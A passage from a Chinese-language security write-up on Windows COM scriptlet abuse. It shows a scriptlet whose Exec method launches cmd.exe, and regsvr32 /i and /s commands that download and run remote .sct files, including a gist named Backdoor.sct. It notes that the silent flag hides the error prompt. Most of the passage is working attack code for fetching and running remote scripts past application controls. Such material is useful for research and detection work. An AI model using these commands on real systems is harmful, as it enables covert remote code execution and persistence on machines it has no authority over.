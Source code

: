```
</registration>

<public>
    <method name="Exec"></method>
</public>
<script language="JScript">
<![CDATA[

    function Exec()
    {
        var r = new ActiveXObject("WScript.Shell").Run("cmd.exe");
    }

]]>
</script>

</scriptlet>

```

根据之前介绍的内容，现在来尝试注册这个COM组件：

```
regsvr32 /i https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct

```

![enter image description here](http://drops.javaweb.org/uploads/images/31aa4559a6f9058535c329d08eef7f19052d078d.jpg)

如图虽然能够成功弹出计算器，但是会弹框提示报错

但是**有趣的是**我们可以通过/s参数来忽略这个错误：

```
regsvr32 /s https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct

```

这样就能够成功执行弹出计算器

而**更有趣的是**这个COM组件仍可以被正常调用：

js文件如下：

```
var ref = new ActiveXObject("Empire");
var c=ref.Exec();

```

运行后会弹出cmd

总结以上的内容，只需执行如下代码即可执行远程服务器上的js脚本

```
regsvr32 /s https://gist.githubusercontent.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302/raw/bf04e98329ef471dcbbe621df5d61ddb4e802b63/Backdoor.sct

```
